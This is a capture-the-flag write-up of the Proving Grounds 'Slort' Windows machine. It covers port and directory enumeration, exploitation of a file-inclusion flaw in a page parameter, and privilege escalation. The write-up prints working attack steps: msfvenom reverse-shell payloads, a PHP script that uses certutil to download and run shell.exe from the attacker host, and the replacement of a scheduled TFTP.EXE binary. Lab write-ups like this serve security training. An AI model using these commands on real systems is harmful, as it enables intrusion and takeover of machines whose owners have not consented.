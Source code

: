 ```yaml
---
title: "Slort - PG"
# author:
#   name: 0xKirito
#   link: https://github.com/0xKirito
date: 2022-01-03 05:28:30 +05:30
categories: [Writeups, Proving Grounds]
tags: [PG, LFI, RFI, Windows]
render_with_liquid: false
---
```


## Recon & Enumeration

- `nmap -Pn -p- -A 192.168.174.53`

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, NULL, TerminalServerCookie, WMSRequest, X11Probe: 
|_    Host '192.168.49.174' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.174.53:4443/dashboard/
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.174.53:8080/dashboard/
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=12/20%Time=5FDF606F%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.78'\x20is\x20not\x20al
<-SNIP->
SF:r")%r(WMSRequest,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.68'\x20is
SF:\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"
SF:);
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-20T14:32:43
|_  start_date: N/A
```

### GoBuster 

```
gobuster dir -u http://192.168.174.53:4443/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50

/img        (Status: 301) [Size: 345] [--> http://192.168.174.53:4443/img/]
/site       (Status: 301) [Size: 346] [--> http://192.168.174.53:4443/site/]
/dashboard  (Status: 301) [Size: 351] [--> http://192.168.174.53:4443/dashboard/]

=====================================================

gobuster dir -u http://192.168.174.53:8080/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50

/img        (Status: 301) [Size: 345] [--> http://192.168.174.53:8080/img/]
/site       (Status: 301) [Size: 346] [--> http://192.168.174.53:8080/site/]
/dashboard  (Status: 301) [Size: 351] [--> http://192.168.174.53:8080/dashboard/]
```

- I actually got the same results on both ports and the content is exactly the same. Not really sure if one is proxy or something 
- If you visit http://192.168.174.53:4443/site/, it redirects to http://192.168.174.53:4443/site/index.php?page=main.php 
- If you visit http://192.168.174.53:8080/site/, it redirects to http://192.168.174.53:8080/site/index.php?page=main.php 

---

## Exploitation 

### LFI RFI 

- If you haven't noticed it already, there is a vulnerable looking parameter there: `index.php?page=main.php` so we will have to test it for LFI and RFI 

http://192.168.174.53:4443/site/index.php?page=main.php 

```
ffuf -u 'http://192.168.174.53:4443/site/index.php?page=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -c -t 50 -fw 34 | grep -v '*passwd* \| *passwd%00 \| *shadow%00'

ffuf -u 'http://192.168.174.53:4443/site/index.php?page=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt -c -t 50 -fw 34

C:/Users/Administrator/NTUser.dat [Status: 200, Size: 372, Words: 31, Lines: 5]
C:/WINDOWS/System32/drivers/etc/hosts [Status: 200, Size: 824, Words: 172, Lines: 22]
```

#### PHP Info Page phpinfo.php 

- http://192.168.174.53:4443/site/index.php?page=../dashboard/phpinfo.php 
- http://192.168.174.53:8080/site/index.php?page=../dashboard/phpinfo.php

#### Other Could-Be-Important Findings 

- `C:\xampp\php\logs\php_error_log`

- Then I tested for RFI with a text file and simple HTTP Python server and was able to confirm RFI 

### Reverse Shell with RFI Remote File Inclusion 

- [PHP Windows Shell](https://github.com/Dhayalanb/windows-php-reverse-shell) 
- Add IP and Port 
- It did not work with default directory so I got the directory from phpinfo.php file from our LFI earlier and then I got a reverse shell as user `rupert` 

```php
$ip   = "192.168.49.174";
$port = "445";
// $tmpdir = "C:\\windows\\temp";
$tmpdir = "C:\\xampp\\apache";
```

- `python3 -m http.server`
- `nc -lvnp 445`

```
http://192.168.174.53:8080/site/index.php?page=http://192.168.49.174/winshell.php
```

- `whoami => rupert`

### Another Method 

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.174 LPORT=135 -f exe -o shell.exe`

- `cat pwn.php`

```php
<?php
$exec = system('certutil.exe -urlcache -split -f "http://192.168.49.174/shell.exe" shell.exe', $val);
?>
```

```
curl http://192.168.174.53:8080/site/index.php?page=http://192.168.49.174/pwn.php
```

- Then to execute the `shell.exe` file we transferred onto the target, edit it like below and send a curl request again or just visit that link in the browser 
- `cat pwn.php`

```php
<?php
$exec = system('shell.exe', $val);
?>
```

---

## Privilege Escalation 

- Backup directory in `C:\` looks interesting 

```
> cd C:\Backup
> dir

01/02/2022  05:09 PM    <DIR>          .
01/02/2022  05:09 PM    <DIR>          ..
06/12/2020  06:45 AM            11,304 backup.txt
06/12/2020  06:45 AM                73 info.txt
01/02/2022  04:41 PM             7,168 TFTP.EXE
06/23/2020  06:49 PM            73,802 TFTP.EXE.BAK
               4 File(s)         92,347 bytes
               2 Dir(s)  27,226,210,304 bytes free

> type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

- It is automatically running every 5 minutes so we can try replacing it with our reverse shell. Check access and details with `accesschk` or `sc qc` 
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.174 LPORT=135 -f exe -o shell.exe`
- `move TFTP.EXE TFTP.EXE.BAK` - always take a backup of the original file 
- `copy C:\Users\rupert\shell.exe TFTP.EXE`
- `nc -lvnp 135`
- `whoami => slort\administrator`

```
whoami && hostname && ipconfig | findstr IPv4 && type proof.txt
slort\administrator
slort
   IPv4 Address. . . . . . . . . . . : 192.168.174.53
39947eae21088415f145c9c626f9fa
```

